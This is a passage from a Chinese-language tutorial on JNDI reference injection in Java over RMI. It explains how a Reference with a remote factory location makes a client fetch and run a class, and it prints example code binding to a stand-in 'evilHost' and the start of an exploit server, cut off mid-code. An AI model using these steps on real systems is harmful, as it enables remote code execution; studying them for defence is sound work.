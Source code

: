 这里可以看到调用完`Reference`后又调用了`ReferenceWrapper`将前面的`Reference`对象给传进去，这是为什么呢？  
其实查看`Reference`就可以知道原因，查看到`Reference`,并没有实现`Remote`接口也没有继承 `UnicastRemoteObject`类，前面讲`RMI`的时候说过，将类注册到`Registry`需要实现`Remote`和继承`UnicastRemoteObject`类。这里并没有看到相关的代码，所以这里还需要调用`ReferenceWrapper`将他给封装一下。

## [JNDI References 注入](#toc_jndi-references)

为了在命名服务或目录服务中绑定`Java`对象，可以使用`Java`序列化来传输对象，但有时候不太合适，比如`Java`对象较大的情况。因此 JNDI 定义了命名引用 (`Naming References`)，后面直接简称引用 (`References`)。这样对象就可以通过绑定一个可以被命名管理器 (`Naming Manager`) 解码并解析为原始对象的引用，间接地存储在命名或目录服务中。  
引用由`Reference`类来表示，它由地址 (`RefAddress`) 的有序列表和所引用对象的信息组成。而每个地址包含了如何构造对应的对象的信息，包括引用对象的`Java`类名，以及用于创建对象的`ObjectFactory`类的名称和位置。  
`Reference`可以使用`ObjectFactory`来构造对象。当使用`lookup()`方法查找对象时，`Reference`将使用提供的`ObjectFactory`类的加载地址来加载`ObjectFactory`类，`ObjectFactory`类将构造出需要的对象。

所谓的 `JNDI` 注入就是控制 `lookup` 函数的参数，这样来使客户端访问恶意的 `RMI` 或者 `LDAP` 服务来加载恶意的对象，从而执行代码，完成利用  
在 `JNDI` 服务中，通过绑定一个外部远程对象让客户端请求，从而使客户端恶意代码执行的方式就是利用 `Reference` 类实现的。`Reference` 类表示对存在于命名/目录系统以外的对象的引用。  
具体则是指如果远程获取 `RMI` 服务器上的对象为 `Reference` 类或者其子类时，则可以从其他服务器上加载 `class` 字节码文件来实例化  
`Reference` 类常用属性：

```plain
className 远程加载时所使用的类名
classFactory 加载的 class 中需要实例化类的名称
classFactoryLocation 提供 classes 数据的地址可以是 file/ftp/http 等协议
```

比如：

```plain
Reference reference = new Reference("Exploit","Exploit","http://evilHost/" );           
registry.bind("Exploit", new ReferenceWrapper(reference));
```

此时，假设使用 `rmi` 协议，客户端通过 `lookup` 函数请求上面 `bind` 设置的 `Exploit`

```plain
Context ctx = new InitialContext();
ctx.lookup("rmi://evilHost/Exploit");
```

因为绑定的是 `Reference` 对象，客户端在本地 `CLASSPATH` 查找 `Exploit` 类，如果没有则根据设定的 `Reference` 属性，到`URL`： [http://evilHost/Exploit.class](http://evilhost/Exploit.class) 获取构造对象实例，构造方法中的恶意代码就会被执行

## [JNDI\_RMI](#toc_jndi_rmi)

本节主要分析 JNDI 在使用 RMI 协议时面临的攻击面。

### [低版本 JDK 运行](#toc_jdk)

服务端代码：

```plain
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import javax.naming.Reference;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;

public class ServerExp {

    public static void main(String args[]) {

        try {
            Registry registry = LocateRegistry.createRegistry(1099);

            String factoryUrl = "http://localhost:1098/";
            Reference reference = new Reference("EvilClass","EvilClass", factoryUrl);
            ReferenceWrapper wrapper = new ReferenceWrapper(reference);
            registry.bind("Foo", wrapper);
```